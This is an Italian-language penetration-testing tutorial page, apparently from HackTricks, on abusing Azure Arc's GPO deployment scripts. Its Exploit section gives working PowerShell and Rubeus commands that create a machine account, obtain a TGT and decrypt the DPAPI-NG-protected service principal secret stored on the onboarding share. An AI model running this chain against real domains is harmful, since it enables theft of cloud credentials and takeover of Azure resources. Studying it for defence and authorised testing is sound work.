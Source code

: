 # Az - Arc vulnerable GPO Deploy Script

{{#include ../../../banners/hacktricks-training.md}}

### Identifying the Issues

Azure Arc consente l'integrazione di nuovi server interni (server del dominio uniti) in Azure Arc utilizzando il metodo del Group Policy Object. Per facilitare questo, Microsoft fornisce un toolkit di distribuzione necessario per avviare la procedura di onboarding. All'interno del file ArcEnableServerGroupPolicy.zip, si possono trovare i seguenti script: DeployGPO.ps1, EnableAzureArc.ps1 e AzureArcDeployment.psm1.

Quando viene eseguito, lo script DeployGPO.ps1 esegue le seguenti azioni:

1. Crea il GPO di Onboarding dei Server Azure Arc all'interno del dominio locale.
2. Copia lo script di onboarding EnableAzureArc.ps1 nella condivisione di rete designata creata per il processo di onboarding, che contiene anche il pacchetto di installazione di Windows.

Quando si esegue questo script, gli amministratori di sistema devono fornire due parametri principali: **ServicePrincipalId** e **ServicePrincipalClientSecret**. Inoltre, richiede altri parametri come il dominio, il FQDN del server che ospita la condivisione e il nome della condivisione. Ulteriori dettagli come l'ID del tenant, il gruppo di risorse e altre informazioni necessarie devono essere forniti anche allo script.

Un segreto crittografato viene generato nella directory AzureArcDeploy sulla condivisione specificata utilizzando la crittografia DPAPI-NG. Il segreto crittografato è memorizzato in un file chiamato encryptedServicePrincipalSecret. Prova di questo può essere trovata nello script DeployGPO.ps1, dove la crittografia viene eseguita chiamando ProtectBase64 con $descriptor e $ServicePrincipalSecret come input. Il descriptor consiste negli SID dei gruppi Domain Computer e Domain Controller, garantendo che il ServicePrincipalSecret possa essere decrittografato solo dai Domain Controllers e dai gruppi di sicurezza Domain Computers, come indicato nei commenti dello script.
```bash
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

Abbiamo le seguenti condizioni:

1. Abbiamo penetrato con successo la rete interna.
2. Abbiamo la capacità di creare o assumere il controllo di un account computer all'interno di Active Directory.
3. Abbiamo scoperto una condivisione di rete contenente la directory AzureArcDeploy.

Ci sono diversi metodi per ottenere un account macchina all'interno di un ambiente AD. Uno dei più comuni è sfruttare il limite degli account macchina. Un altro metodo prevede il compromesso di un account macchina attraverso ACL vulnerabili o varie altre misconfigurazioni.
```bash
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Una volta ottenuto un account macchina, è possibile autenticarsi utilizzando questo account. Possiamo utilizzare il comando runas.exe con il flag netonly oppure utilizzare pass-the-ticket con Rubeus.exe.
```bash
runas /user:fake01$ /netonly powershell
```

```bash
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Avendo il TGT per il nostro account computer memorizzato in memoria, possiamo utilizzare il seguente script per decrittografare il segreto del principal del servizio.
```bash
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
In alternativa, possiamo utilizzare [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

A questo punto, possiamo raccogliere le informazioni rimanenti necessarie per connetterci ad Azure dal file ArcInfo.json, che è memorizzato sulla stessa condivisione di rete del file encryptedServicePrincipalSecret. Questo file contiene dettagli come: TenantId, servicePrincipalClientId, ResourceGroup e altro. Con queste informazioni, possiamo utilizzare Azure CLI per autenticarsi come il service principal compromesso.

## Riferimenti

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{{#include ../../../banners/hacktricks-training.md}}
